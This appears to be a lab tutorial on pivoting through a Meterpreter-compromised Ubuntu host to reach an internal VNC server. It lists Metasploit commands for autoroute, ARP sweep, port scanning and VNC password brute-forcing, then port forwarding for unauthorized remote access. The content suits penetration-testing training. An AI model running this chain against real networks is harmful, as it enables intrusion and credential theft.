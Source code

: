 # VNC pivoting using Meterpreter

**Lab Setup requirement:**

**Attacker Machine**: Kali Linux

**Pivot Machine**:  Ubuntu operating system with **two** network interface

Target Machine: Ubuntu \(Allow VNC service\)

![](https://i1.wp.com/3.bp.blogspot.com/-OxfPtaxgGEA/WdJtcz9GK-I/AAAAAAAARxY/BqccVBJ7OKkAL5iE9kyKnmSaJlUKQtGJwCLcBGAs/s1600/11.png?w=687&ssl=1)

#### **Exploit pivot machine**

Generate payload using msfvenom start multi/handler to hack the pivot machine \(ubuntu\) read the complete article from **here** and bypass its UAC to achieve admin privileges.sysinfo

| 1 | sysinfo |
| :--- | :--- |


 ****From the given image you can confirm that I owned a pivot machine \(192.168.1.226\) meterpreter session.

![](https://i0.wp.com/1.bp.blogspot.com/-zR_6L0cwp5o/WdJtdPciXEI/AAAAAAAARxc/tjcTXVvTatEGBJ9VXkjoxjI4ptNjePhugCLcBGAs/s1600/12.png?w=687&ssl=1)

Check the network interface through the following command:meterpreter&gt; ifconfig

| 1 | meterpreter&gt; ifconfig |
| :--- | :--- |


From the given image you can observe two networks interface in pivot’s system **1st** for IP **192.168.1.226** through which the attacker is connected and **2nd** for IP **10.0.0.10** through which VNC server \(targets\) are connected.

![](https://i0.wp.com/3.bp.blogspot.com/-UH7xx63qqMw/WdJtdD0ZOWI/AAAAAAAARxg/mWSuS-dDuc8l-QajqFd2DnU-JsGLHaFyACLcBGAs/s1600/13.png?w=687&ssl=1)

#### **Route Add**

Since the attacker belongs to the **192.168.1.1** interface and client belongs to **10.0.0.0** interface, therefore, it is not possible to directly make an attack on client network until unless the attacker acquires the same network connection. In order to achieve a 10.0.0.0 network attacker need to run the **post exploitation** “autoroute”.use post/multi/manage/autoroute   
msf post\(autoroute\) &gt; set session 3  
msf post\(autoroute\) &gt; exploit

| 123 | use post/multi/manage/autoroutemsf post\(autoroute\) &gt; set session 3msf post\(autoroute\) &gt; exploit |
| :--- | :--- |


![](https://i2.wp.com/4.bp.blogspot.com/-JtKqHypEi8E/WdJtdr8UtxI/AAAAAAAARxk/94-l01wzj5Id8pe677PQbwNIM089WHy5wCLcBGAs/s1600/15.png?w=687&ssl=1)

#### **ARP Sweep to identify Active host**

This module will enumerate alive Hosts in the local network using ARP requests. Take help from target network interface 3 as shown above for MAC address and other details.use auxiliary/scanner/discovery/arp\_sweep  
msf auxiliary\(arp\_sweep\) &gt;set rhost 10.0.0.1-254  
msf auxiliary\(arp\_sweep\) &gt;set shost 10.0.0.10  
msf auxiliary\(arp\_sweep\) &gt;set smac 00:0c:29:bf:43:94  
msf auxiliary\(arp\_sweep\) &gt;run

| 12345 | use auxiliary/scanner/discovery/arp\_sweepmsf auxiliary\(arp\_sweep\) &gt;set rhost 10.0.0.1-254msf auxiliary\(arp\_sweep\) &gt;set shost 10.0.0.10msf auxiliary\(arp\_sweep\) &gt;set smac 00:0c:29:bf:43:94msf auxiliary\(arp\_sweep\) &gt;run |
| :--- | :--- |


Here we found a new host IP **10.0.0.20** as shown in the given image. Let’s perform TCP port scan for activated services on this machine.

![](https://i2.wp.com/1.bp.blogspot.com/-iPzsNs96XXc/WdJtdgQWq_I/AAAAAAAARxo/K_QHuq5wj9Ug5usLp4T4Gn8fda_jq3TnwCLcBGAs/s1600/16.png?w=687&ssl=1)

#### **TCP Port Scan**

This module will enumerate open TCP port of the target system.use auxiliary/scanner/portscan/tcp  
msf auxiliary\(tcp\) &gt; set rhosts 10.0.0.20  
msf auxiliary\(tcp\) &gt; set thread 20  
msf auxiliary\(tcp\) &gt;exploit

| 1234 | use auxiliary/scanner/portscan/tcpmsf auxiliary\(tcp\) &gt; set rhosts 10.0.0.20msf auxiliary\(tcp\) &gt; set thread 20msf auxiliary\(tcp\) &gt;exploit |
| :--- | :--- |


From given you can observe **port 5900** is **open** and we know that 5900 used for VNC services.

![](https://i1.wp.com/3.bp.blogspot.com/-tz2KjiFv0GE/WdJtd7BV-XI/AAAAAAAARxs/cjdyKHF8POQpIvW7UgoxwNbh7iTF6z3BQCLcBGAs/s1600/17.png?w=687&ssl=1)

#### Bruteforcing VNC Login

In order to steal password for making unauthorized access in VNC machine apply Brute force attack using password, the dictionary is given below exploit.use auxiliary/scanner/vnc/vnc\_login  
msf auxiliary\(vnc\_login\) &gt;set rhosts 10.0.0.20  
msf auxiliary\(vnc\_login\) &gt;set pass\_file /root/Desktop/pass.txt  
msf auxiliary\(vnc\_login\) &gt; run

| 1234 | use auxiliary/scanner/vnc/vnc\_loginmsf auxiliary\(vnc\_login\) &gt;set rhosts 10.0.0.20msf auxiliary\(vnc\_login\) &gt;set pass\_file /root/Desktop/pass.txtmsf auxiliary\(vnc\_login\) &gt; run |
| :--- | :--- |


**Awesome!!** From given below image you can observe the same **password: 123456** have been found by Metasploit.

![](https://i2.wp.com/3.bp.blogspot.com/-FWRXkU4oOtQ/WdJteTHHapI/AAAAAAAARx4/Y7JyUzR4tfoGDcGrgveJ1x9n2z_DOTzKACLcBGAs/s1600/18.png?w=687&ssl=1)

#### **VNC Port forwarding on Local port**

Now Type the following command for port forwarding on localhost.meterpreter&gt; portfwd add –l 6000 –p 5900 –r 10.0.0.20

| 1 | meterpreter&gt; portfwd add –l 6000 –p 5900 –r 10.0.0.20 |
| :--- | :--- |


-l: This is a local port to listen on.

-p: The remote port to connect on.

-r:  The remote host address to connect on.

![](https://i2.wp.com/4.bp.blogspot.com/-8okgBDZDQr4/WdJteTzhhxI/AAAAAAAARxw/74ebcehdWlQ4_dX_o-qKlbQfS0fUzXQcgCLcBGAs/s1600/20.png?w=687&ssl=1)

Now open the terminal and type following command to connect the target machine:vncviewer 127.0.0.1:6000

| 1 | vncviewer 127.0.0.1:6000 |
| :--- | :--- |


**Wonderful!!** We had successfully exploited the VNC client by making unauthorized access.

\*\*\*\*


